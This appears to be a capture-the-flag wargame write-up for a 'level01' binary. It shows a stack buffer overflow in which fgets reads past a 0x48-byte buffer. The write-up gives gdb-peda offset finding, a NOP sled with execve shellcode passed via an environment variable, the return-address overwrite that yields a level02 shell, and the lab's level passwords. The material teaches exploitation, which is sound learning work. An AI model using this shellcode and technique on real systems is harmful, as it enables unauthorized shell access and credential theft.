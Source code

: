# Level01 - Buffer overflow

## Local script usage

Requirements:

- `gdb-peda`
- `getenv32`

You can setup requirements with the script: [scripts/installUtils.sh](../../scripts/installUtils.sh)

```shell
./scripts/installUtils.sh
./level01/Ressources/main.sh
```

## Passwords and token

|         |                                            |
| ------- | ------------------------------------------ |
| level01 | `uSq2ehEGT6c9S24zbshexZQBXUGrncxn5sD5QfGL` |
| level02 | `PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv` |

## Steps to resolve on VM

See our assembly interpretation in [source file](../source.c)

As we can see, in the second prompt, `fgets` takes 0x64 bytes, but the buffer can only takes 0x48 (cf. `main+8`: `sub esp, 0x60`).

Lets see if we can overflow this buffer and write the return address.

```shell
gdb-peda$ b*main+169
gdp-peda$ run < <(python -c 'print "dat_wil\n" + "A" * 0x48')

gdb-peda$ x/24x $esp+0x1c
0xffffd5ec:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5fc:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd60c:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd61c:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd62c:     0x41414141      0x41414141      0x0000000a      0x00000000
0xffffd63c:   [ 0xf7e45513 ]    0x00000001      0xffffd6d4      0xffffd6dc

p 0x48 + 8
$3 = 0x50 # => offset
```

We have an offset of 0x50.

Lets build our exploit

```shell
export SHELLCODE=`python -c "print '\x90' * 0xff + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'"`

./getenv32 SHELLCODE ~/level01
  0xffffd755

python -c 'print "dat_wil\n" + "A" * 0x50 + "\x55\xd7\xff\xff"' > /tmp/exploit01
```

And finally get the pass

```shell
cat /tmp/exploit01 - | ~/level01
  ********* ADMIN LOGIN PROMPT *********
  Enter Username: verifying username....

  Enter Password:
  nope, incorrect password...

$ whoami
  level02
$ cat /home/users/level02/.pass
  PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```

## Sources

### ASM

- [What does the “rep stos” x86 assembly instruction sequence do?](https://stackoverflow.com/questions/3818856/what-does-the-rep-stos-x86-assembly-instruction-sequence-do)

### C

- [Man fgets](https://linux.die.net/man/3/fgets)
- [Man memset](https://linux.die.net/man/3/memset)
- [Man printf](https://linux.die.net/man/3/printf)
- [Man puts](https://linux.die.net/man/3/puts)
- [Man strncmp](https://linux.die.net/man/3/strncmp)
